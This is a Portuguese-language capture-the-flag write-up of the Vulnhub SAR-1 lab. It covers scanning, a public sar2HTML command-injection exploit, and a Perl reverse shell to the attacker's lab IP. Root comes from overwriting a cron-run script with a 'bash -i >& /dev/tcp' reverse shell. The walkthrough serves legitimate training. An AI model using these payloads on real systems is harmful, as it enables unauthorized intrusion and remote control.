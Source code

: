 ```yaml
---
title: Vulnhub - SAR-1
categories: [Vulnhub]
#tags: []
render_with_liquid: false
image: https://0xch4rli3.github.io/assets/img/Vulnhub/SAR-1/capa.png
---
```


![](/assets/img/Vulnhub/SAR-1/capa.png)

Link da Maquina: <https://www.vulnhub.com/entry/sar-1,425/>

# Scan/Enumeracao


## Host Discovery


* Com o comando arp-scan vamos descobrir quais sao os hosts que estao up na rede

```bash
sudo arp-scan -I eth1 192.168.150.0/24
```

![](/assets/img/Vulnhub/SAR-1/host-discovery.png)


## Port Discovery


* Vamos descobrir as portas quqe estao abertas no alvo

```bash
sudo nmap -n -T5 -p- 192.168.150.114 
```

![](/assets/img/Vulnhub/SAR-1/port-discovery.png)




## Port Scan


* Vamos escanear a porta que esta aberta para descobrir qual o servico que esta rodando e qual a versao

```bash
sudo nmap -n -T5 -A -p 80 192.168.150.114
```

![](/assets/img/Vulnhub/SAR-1/port-scan.png)

> POrta 80: Apache httpd 2.4.29




# Exploracao


## Web


### Acessando a pagina pelo browser

* Na pagina principal da aplicacao temo a "Default Page" do Apache2

![](/assets/img/Vulnhub/SAR-1/apache1.png)




### Fuzzy de diretorios

* Rodando o gobuster para procurar por mais arquivos e diretorios

```bash
gobuster dir -u http://192.168.150.114 -w /usr/share/wordlists/dirb/big.txt -x php,txt
```

![](/assets/img/Vulnhub/SAR-1/gobuster1.png)




* Achamos dois arquivos, **phpinfo.php** e **robots.txt**. No phpinfo temos as informacoes de configuracao do Apache

![](/assets/img/Vulnhub/SAR-1/phpinfo.png)


* No outro arquivo robots temos uma palavra **sar2HTML**

![](/assets/img/Vulnhub/SAR-1/robots.png)




### sar2HTML


* Conseguimos acessar uma outra pagina web com a dica que recebemos no robots: http://192.168.150.114/sar2HTML/

![](/assets/img/Vulnhub/SAR-1/sar2HTML.png)


* Jogando no google o nome da aplicacao ja apareceram inumeros sites com a vulnerabilidade dessa aplicacao




* Entrando no site www.exploit-db.com e procurando por exploits para o **sarHTML versao 3.2.1** temos um para RCE. Inicialmente analisando o exploit, ele e feito em python e a principio consegue executar comando atraves da URL **"{url}/index.php?plot=;{cmd}"**

![](/assets/img/Vulnhub/SAR-1/exploit-db-sarHTML.png)




* Vamos baixa-lo, dar permissao de execucao para o script e executa-lo

![](/assets/img/Vulnhub/SAR-1/rce-sarHTML.png)

> 1 - Executamos o script com python3

> 2 - Inserimos a URL da aplicacao

> 3 - Inserimos o comando para ser executado no alvo


## RCE / Shell Reverso


* Agora vamos seguir os seguintes passos:

![](/assets/img/Vulnhub/SAR-1/shell-reverso.png)

> 1 - Deixar uma porta escutando na kali

> 2 - procurar com o [rbscheat](https://github.com/marciosouza20/rbscheat) um comando par nos enviar um shell em **perl**. Mas porque em perl? Testamos varios comandos ate termos sucesso com o comando em perl para hosts Linux que nao possuem /bin/sh. 

> 3 - `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.150.110:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

> 4 - Enviamos para o nosso alvo por meio do exploit

> 5 - E por fim recebemos o **SHELL REVERSO**!


## Melhorando o Shell


* Vamos melhorar o nosso shell reverso

```bash
script /dev/null
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![](/assets/img/Vulnhub/SAR-1/melhorando-shell.png)




# Escalando Privilegio


* Primeiramente procuramos por diretorios e arquivos com pesmissao de escrita. Procuramos tambem por binarios com SUID e listamos o que podemos executar como sudo

```bash
find / -type d -writable 2> /dev/null | fgrep -v proc
find / -type f -writable 2> /dev/null | fgrep -v proc
find / -perm -4000 2> /dev/null | fgrep -v proc
sudo -l
```


* Nao conseguimos achar nada de interessando inicialmente. Entao vamos tranferir o linpeas para o alvo

![](/assets/img/Vulnhub/SAR-1/transferindo-linpeas.png)




* Executamos o linpeas

![](/assets/img/Vulnhub/SAR-1/executamos-linpeas.png)


* Duas coisas chamaram antencao no resultado do linpeas. 

![](/assets/img/Vulnhub/SAR-1/crontab-1.png)

![](/assets/img/Vulnhub/SAR-1/crontab-2.png)

> A primeira coisa que nos chama atencao e uma tarefa agendada no crontab



![](/assets/img/Vulnhub/SAR-1/linpeas-out-1.png)

![](/assets/img/Vulnhub/SAR-1/linpeas-out-2.png)

> A segunda e que podemos escrever em um arquivo que esta no diretorio /var/spool/cron/crontabs 


* Verificando o **/etc/crontab** podemos observar que a tarefa se trata em executar um arquivo, **/var/www/html/finally.sh**

![](/assets/img/Vulnhub/SAR-1/etc-crontab.png)


* Ao verificar esse arquivo observamso que ele executa outro script **write.sh**, que esta no mesmo diretorio. Para a nossa alegria temos permissao de escrita no arquivo write.sh. 

![](/assets/img/Vulnhub/SAR-1/etc-crontab.png)




* Agora vamos criar um arquivo na nossa maquina kali com o nome "write.sh". 

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.150.110/443 0<&1
```

![](/assets/img/Vulnhub/SAR-1/write-kali.png)


* Depois de ter feito o arquivo vamos levantar um servidor web com o python na nossa maquina, baixar ele no alvo e dar permissao total pra ele

```bash
wget 192.168.150.110/write.sh
chmod 777 write.sh
```

![](/assets/img/Vulnhub/SAR-1/write-alvo.png)


* Agora e so deixar a porta escutando na nossa maquina e qnd o spript for executado a proxima vez viraremos **ROOT**!




# ROOT


* **Pronto, agora somos ROOT!**

![](/assets/img/Vulnhub/SAR-1/root.png)


# Flag


* Conseguimos pegar a flag do **user.txt** e a **root.txt**

![](/assets/img/Vulnhub/SAR-1/flag-user.png)

![](/assets/img/Vulnhub/SAR-1/flag-root.png)
